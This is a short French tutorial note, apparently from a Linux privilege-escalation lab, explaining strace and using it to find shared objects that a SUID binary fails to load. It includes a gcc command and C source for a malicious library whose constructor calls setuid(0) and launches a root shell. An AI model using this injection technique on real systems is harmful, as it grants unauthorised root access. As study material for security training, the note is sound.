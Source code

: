 Description :

Permet de diagnostiquer les appels systèmes. En gros a chaque fois que le programme appelle une librairie, l'ouverture de fichier,... il nous le montre. Ca peut être bordelique donc vaut mieux mettre un grep avec.

Exemple :  
`strace /usr/local/bin/suid-so 2>&1`

là on regarde tous les appels système. `2>&1` sert a rediriger les erreurs (2) vers la sortie standard (1). Le & sert juste a spécifier qu'on redirige vers un autre descripteur de fichier.

Vulnérabilité possible grâce a strace :

si on a un fichier suid (fichier qui s'exécute avec les privilèges du owner du fichier donc si il appartient a root, peut importe qui le lance, il se lancera en root) que tu peux voir avec la commande ls -l et voir si le bit s est actif, on pourra voir tout les appels système. Donc si on fait `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"` pour voir quelles sont les fichiers que le programme n'arrive pas à trouver, il nous les donnera. Grace à ca, on peut les créer nous même ces fichiers avec ce qu'on veut dedans.

Imaginons qu'il ne trouve pas un fichier .so nommé [libcalc.so](http://libcalc.so "http://libcalc.so") dans la dossier /home/user/.config, on peut créer le dossier .config (si il n'existe pas encore) puis créer notre propre Shared Object a partir d'un script.

`gcc -shared -fPIC -o /home/user/.config/`[libcalc.so](http://libcalc.so "http://libcalc.so") `/home/user/tools/suid/libcalc.c` . Dans mon exemple, dans le fichier libcalc.c, il y a un mini script qui donne les privilèges root :

#include <stdio.h>  
#include <stdlib.h>

static void inject() **attribute**((constructor));

void inject() {  
        setuid(0);  
        system("/bin/bash -p");  
}  
Enfin, on relance le fichier suid pour voir si ca marche.